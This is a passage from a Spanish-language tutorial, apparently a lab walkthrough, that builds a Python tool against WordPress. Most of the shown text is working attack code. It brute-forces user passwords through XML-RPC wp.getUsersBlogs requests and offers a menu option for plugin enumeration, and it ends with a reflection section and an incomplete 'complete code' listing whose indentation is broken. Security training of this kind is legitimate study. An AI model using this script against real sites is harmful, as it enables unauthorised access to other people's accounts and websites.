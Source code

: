```python
        <methodCall>
        <methodName>wp.getUsersBlogs</methodName>
        <params>
        <param><value>{usuario}</value></param>
        <param><value>{password}</value></param>
        </params>
        </methodCall>"""
        print(f"Probamos con la contraseña {password}")
        respuesta = requests.post(url, data=payload)
        if 'incorrectos.' not in respuesta.text:
            print(f"La contraseña del usuario {usuario} es {password}")
            exit(0)

choice = input("Introduce 1 para hacer fuerza bruta o 2 para enumerar plugins: ")
if choice == '1':
    bruteforce()
elif choice == '2':
    ataque_plugin()
else:
    print("Opción no válida, introduce un 1 o un 2")
```

---

### **Paso 8: Reflexión y conclusión**
El script final cumple el objetivo: combina dos técnicas en una herramienta unificada. Las funciones en Python nos permiten organizar el código y ejecutar tareas específicas según la elección del usuario. Algunos puntos clave:
- **Ajustes necesarios**: Tuvimos que corregir la URL base para la enumeración de plugins y añadir manualmente la contraseña al diccionario.
- **Flexibilidad**: El uso de funciones hace que el código sea modular y fácil de ampliar.
- **Mejoras posibles**: Podríamos añadir más opciones, mejorar la interfaz o optimizar el ataque de fuerza bruta.
## Codigo Completo:

````python
import requests

  

def ataque_plugin():

plugins = (

"jetpack",

"akismet",

"contact-form-7",

"woocommerce",

"wordfence",

"yoast-seo",

"elementor",

"w3-total-cache",

"updraftplus",

````